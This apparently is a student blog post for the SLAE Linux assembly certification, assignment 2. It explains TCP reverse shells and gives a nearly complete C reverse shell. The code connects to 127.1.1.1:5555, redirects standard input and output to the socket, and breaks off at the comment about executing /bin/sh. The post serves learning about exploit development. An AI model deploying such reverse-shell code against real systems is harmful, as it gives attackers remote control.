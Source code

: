 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-1523

## Assignment#2: What to do ?


## 1) First step: create a TCP reverse shell
This shellcode needs to be able to:
* Create a reverse connection to a configured IP and Port
* Execute a shell on successful connection

The second step is to create a script which will make the IP and port configuration easy

Note:
* All the commands used for this assignment were done on the last 64 bits version of KALI Linux.

### 1.1) What is a reverse shell
A TCP reverse shell connects back to a remote machine, then executes a shell and redirects all input & output to the socket.

### 1.2) Example of a TCP reverse shell in C
An example of a TCP reverse shell in C can be found below. This example has been created in order to help me code the assembly version.
```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main(int argc, int *argv[])
{
    int s;
    struct sockaddr_in addr;
	
    // set "addr.sin_family" to IPV4
    addr.sin_family = AF_INET;
    // set the port number to 5555
    addr.sin_port = htons(5555);
    // when executed the code will connect to 127.1.1.1
    addr.sin_addr.s_addr = inet_addr("127.1.1.1");

    // Create the socket
    // AF_INET for IPv4
    // SOCK_STREAM for TCP connection
    s = socket(AF_INET, SOCK_STREAM, 0);

    // Connect to the remote machine
    connect(s, (struct sockaddr *)&addr, sizeof(addr));

    // Redirect the STDIN, STDOUT and STDERR into the socket
    for (int i = 0; i < 3; i++)
    {
        dup2(s, i);
    }

    // Execute /bin/sh
```